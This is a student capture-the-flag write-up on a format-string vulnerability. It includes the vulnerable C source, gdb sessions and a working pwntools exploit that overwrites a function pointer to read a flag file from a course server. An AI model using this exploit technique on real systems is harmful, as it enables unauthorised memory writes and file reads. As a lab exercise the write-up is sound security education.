


# CTF 4 - Week 6 - Format Strings

## Reconnaissance (Local execution)

As indicated in the guidelines, we started by running `checksec program`, which showed us that:

- it was a 32-bit executable
- with no RELRO - additional mitigation of ROP (Return-Oriented Programming) attacks, making some addresses read-only
- with a stack canary protecting the return address (which, similarly to [CTF5](CTF5.md), we assumed it actually didn't)
- whose non-executability of some areas of the stack was not unknown (which, similarly to [CTF5](CTF5.md), we assumed it actually had those permissions)
- whose binary positions are not randomized (no PIE - Position Independent Executable)
- with memory regions/segments with read-write-execute permissions.
- it was not stripped
- it contained debug information.

```bash
  Arch:       i386-32-little
  RELRO:      No RELRO
  Stack:      Canary found
  NX:         NX unknown - GNU_STACK missing
  PIE:        No PIE (0x8048000)
  Stack:      Executable
  RWX:        Has RWX segments
  Stripped:   No
  Debuginfo:  Yes
```

Then we will first analyze and run the program locally to get familiar with it.

Question 1: Is there a file that is opened and read by the program?
Answer 1: In the `main.c` file, the `readtxt()` function is called, receiving a file name as an argument, which appends the `.txt` extension to the file name and runs the `cat` command on it using a `system()` call. In `main.c` the file opened is "rules.txt".
However, unlike in [CTF5](CTF5.md), where the function directly uses the `name` argument in the `sprintf()` call, in this version, it copies the first 6 characters into the `arg` buffer, also ensuring it's null-terminated before using it. This provides a layer of protection against buffer overflows in the `command` buffer.

```c
int readtxt(char* name){
  char command[15];
  char arg[7];
  memcpy(arg,name,6);
  arg[6] = '\0';
  sprintf(command,"cat %s.txt\0",arg);
  printf("Running command %s\n",command);
  system(command);
  return 0;
}
```

Question 2: Is there any way to control which file is opened?
Answer 2: Yes, even though it is initially called with the argument "rules", we can try and control the argument passed to `readtxt()` function, so it opens a file of our choosing.

```c
void(*fun)(char*);
// ...
fun = &readtxt;
(*fun)("rules");
```

Question 3: Is there a format string? If so, where is it vulnerable and what can you do?
Answer 3: Yes, the line `printf(buffer);` is vulnerable because it directly prints the user-provided input stored in `buffer` without specifying a format string. This can be exploited by providing a specially crafted input that includes format specifiers (e.g., %x, %s) to read or write arbitrary memory locations. In our case, the goal is to replace the `fun` function pointer's current value (`echo` function's address, which isn't useful to access the contents of a file) with the address of the `readtxt()` function. We also have to provide the `flag` file-name as an argument to the function, since, after the format string vulnerability, the `fun` function pointer is called with the `buffer` as an argument.

```c
char buffer[100];
// ...
fun=&echo;
// ...
scanf("%99s", &buffer);
buffer[99]='\0';
printf(buffer);
printf("Calling function at %x %d\n",*fun,*fun);
(*fun)(buffer);
```

More concretely, we need to provide a format string that will write the address of the `readtxt()` function into the `fun` function pointer, as input to the `program` which stores it in the `buffer` variable:

```c
scanf("%99s", &buffer);
```

Additionally, the `flag` file name will be prepended to the `buffer` variable, so it is passed as an argument to the `readtxt()` function, which reads the 6 first characters of the `buffer` variable and uses them as the file name.

> The specific size of this file name, 6, would end up bringing a lot of constraints to the format string exploit implementation, as we'll see below.
> We also noticed that the `main()` function, differently from [CTF5](CTF5.md) prints the address of the `fun` function pointer, as a hint, which we disregarded initially. This would end up being pivotal to our exploit, as we discovered later.

We started by researching, as recommended, the `pwnlib.fmtstr` exploitation tools, and then using what we learned to complete the provided `exploit-template.py` script. We used the `fmtstr_payload` function to generate the payload, which required us to get the address of the `fun` function pointer, as well as the address of the `readtxt()` function. We used the `gdb` debugger to get them, as we did in [CTF5](CTF5.md), by creating a breakpoint at the `main()` function just before the vulnerable `printf(buffer);` call.

```bash
gdb ./program
(gdb) break main.c:33
(gdb) run
# ...
(gdb) print &fun
(gdb) print &readtxt
```

From this, we got the address `0xffffcf10` for `fun`, and `0x80497a5` (leading 0 is omitted) for `readtxt()`. The latter was the same as the one we got in [CTF5](CTF5.md). These would make up the 2nd argument of the `fmtstr_payload` function, which was a dictionary data-structure with the addresses to write to and the respective values to write. Therefore, we would write the address of `readtxt()` to the address of `fun`.

The next step was preparing the prefix of the format-string payload, which was the name of the file to be used as argument in `readtxt()`. We start with simply `prefix = b"flag"`, but we knew this was going to be a temporary value, due to `readtxt()`'s implementation.

The 1st argument of the `fmtstr_payload` function proved to be an enormous challenge to get right, due to its vague documentation:

- We tried 4, the number of characters before the format-string itself, as well as 6 due to `readtxt()`, but none of them worked.
- With the first argument being called the offset in the documentation, we then tried interpreting it as the number of bytes between the `printf(buffer);` call and the "first formatter (format specifier/format string argument) we controlled" (as the documentation mentioned). So, using `gdb`, we got the address of the 1st element of the `buffer` - `0xffffceac` - and the address of `$esp` (stack pointer which contains the address of the top of the stack) right before the execution of `printf(buffer);` - also `0xffffceac`:

```bash
(gdb) break main.c:33
(gdb) run
AAAABBBBCCCCDDDD  # input, when prompted by the program, to distinguish the addresses in the stack clearly
(gdb) p $esp      # output containing the address of the top of the stack
(gdb) x/32wx $esp # output containing 32 words (4 bytes each) starting from the address in $esp (top of the stack)
# first line of output
# 0xffffceac:	0x41414141	0x42424242	0x43434343	0x44444444
# Which were the hex values of the characters in the input

```

- This meant that the `buffer` was at the top of the stack, and the offset would be `0`. This made sense, because every line of code in `main.c` between the local variable declarations and the vulnerable `printf(buffer);` were either reassignments of those variables or function calls that started and ended, resulting in a stack that had nothing else other than the local variables. So, we tried removing the prefix,to get the format string to start at `buffer[0]`. And with the 1st argument as `0`. We got a segmentation fault.
- This lead us to try using `1` as the 1st argument, because maybe `0` wouldn't be the correct default offset value for the element in memory immediately above the function call. This also resulted in a segmentation fault.

We gave up on this argument for now, and tried solving the problem with the prefix - need to represent a 4-byte file name (`flag.txt`) in a 6-byte string:

- If we used `prefix = b"flag"`, the `readtxt()` function would read the first 6 characters of the buffer, which would include parts of the format string, which would be problematic. So a prefix of under 6 characters was not an option.
- If we used `prefix = b"flag\0\0"`, the `readtxt()` function would read the first 6 characters of the buffer, and would stop at the null byte, which would be the end of the file name. This would be ideal because `readtxt()` would only read the file name. But this stops the vulnerable `printf(buffer);` call from printing the format string, which would be necessary to exploit the vulnerability. So null bytes in the prefix were not an option.
- If we used `prefix = b"flag  "`, the `readtxt()` function would read the first 6 characters of the buffer, and the file name would be `flag  .txt`, which would be problematic. The same would happen with `prefix = b"  flag"`. So spaces in the prefix were not an option.

The only possible option was using path traversal techniques, to get a 6-byte string to be interpreted as the necessary 4-bytes, without compromising the format string. We tried `cat ./flag.txt` in a terminal, and it worked. This is because the `cat` command interprets the `./` as the current directory, and the `flag.txt` as the file name. So, we used `prefix = b"./flag"`, which would be interpreted as `flag.txt` by the `readtxt()` function, and would not interfere with the format string.

Afterwards, while running the `program` on its own, we noticed that the `fun` function pointer's address that was printed as a hint was changing every time the program was run. Therefore, we couldn't hardcode the address of the `fun` function pointer in the payload. We had to get it dynamically. In a similar way of how the skeleton of the `exploit-template.py` script was already doing, we had to read the output of the `program` and extract the address of the `fun` function pointer from it:

```python
res = r.recvuntil(b"I will give you an hint: ") # Wait for the output until the hint
print(res)
hint = r.recvline().strip()                     # Reads next line of output
fun_addr = int(hint, 16)                        # Converts the hint to an integer (base 16)
# Followed by the already existing code:
res = r.recvuntil(b"flag:\n")
print(res)
```

We didn't find a possible explanation for the changing address of the `fun` function pointer, because subsequent runs of `gdb` showed that the address of the `fun` function pointer was always the same (0xffffcf10). And as shown previously, the was no PIE (Position Independent Executable) enabled in the binary, which would have explained the changing address. So, we had to work with the dynamically obtained address of the `fun` function pointer.

Given that the address of `readtxt()` wasn't being printed in `main.c`, no other hint was mentioned relating to it, and having always the same output from `gdb`, we decided to use the hardcoded address of `readtxt()` referred previously.

While rereading the `fmtstr_payload` documentation, we noticed the 3rd argument, `numbwritten`, which was the number of bytes written by the `printf()` function so far. We realized that if we are prepending the file name to the format string, the number of bytes written so far would be the length of the file name. So, we set this argument to `len(prefix)`, which was the length of the file name.
Then it ocurred to us that the 1st argument of the `fmtstr_payload` function was instead the number of the format string argument we controlled, and ignored the intrinsic meaning of its `offset` name. So, considering the stack representation in Software Security Part 2's slide 32, and considering that `program` is a 32-bit executable, we supposed that the first 4 bytes in the buffer to be argument 1 (immediately above the vulnerable `printf(buffer);` call), the next 4 bytes to be argument 2, and the next 4 bytes to be argument 3. Given this, we tried using `2` and `3`, because the prefix's length was 6 bytes. But this resulted in a segmentation fault. This was because, naturally, 6 bytes is not divisible by 4, so the format string would be misaligned. So, we tried appending 2 bytes to the prefix (any would've worked, but we choose 2 NOPs (`\x90`)), to total in 8 bytes, and using `3` as the 1st argument, and it worked.

> Note: the prefix being 8 bytes long was not a problem, because the `readtxt()` function would only read the first 6 bytes of the buffer, and the extra 2 padding bytes would be ignored.

This way, we obtained the content of the `flag.txt` file: `flag{asd}`.


Image 1: Running the exploit script on the local machine

The final payload was:

```python
# ...
res = r.recvuntil(b"I will give you an hint: ") # Wait for the output until the hint
print(res)
hint = r.recvline().strip() # Reads next line of output
fun_addr = int(hint, 16)    # Converts the hint to an integer (base 16)
# ...
readtxt_addr = 0x080497a5
prefix = b"./flag\x90\x90" # 6-byte prefix for readtxt() function - 2 meaningless NOPs to align the address to 8 bytes - due to fmtstr_payload's offset argument
payload = fmtstr_payload(3, {fun_addr: readtxt_addr}, len(prefix)) # Offset is the number of arguments (4 chars) before the format string
payload = prefix + payload
# ...
```

## Exploiting the vulnerability (remotely)

Given that the payload was working locally, we tried running it on the remote server. The `exploit-template.py` script was modified to connect to the remote server, using port 4005, as specified in the challenge description:

```python
# Changed from:
r = process('./program')
# To:
r = remote('ctf-fsi.fe.up.pt', 4005)
```

After running it, the output is `flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}`. After submitting it in the corresponding CTF challenge, we successfully completed it!


Image 2: Running the exploit script on the remote server
